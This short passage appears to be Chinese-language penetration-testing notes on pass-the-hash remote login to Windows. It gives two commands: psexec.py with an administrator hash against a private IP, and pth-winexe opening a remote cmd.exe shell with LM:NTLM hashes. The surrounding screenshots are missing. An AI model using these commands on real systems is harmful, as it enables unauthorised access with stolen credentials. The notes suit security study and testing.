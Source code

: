 ![image](images/Skw1ycCLa.png)

以hash方式遠端登入
```
psexec.py 'administrator'@192.168.0.22 -hashes:<hash>
```
![image](images/r1l6Z9A8a.png)

pth-winexe 遠端方式
```
pth-winexe –U 'Username%<LM_hash:NTLM_hash>' //<IP> cmd.exe
``` 
![image](images/ByB8G9AUa.png)

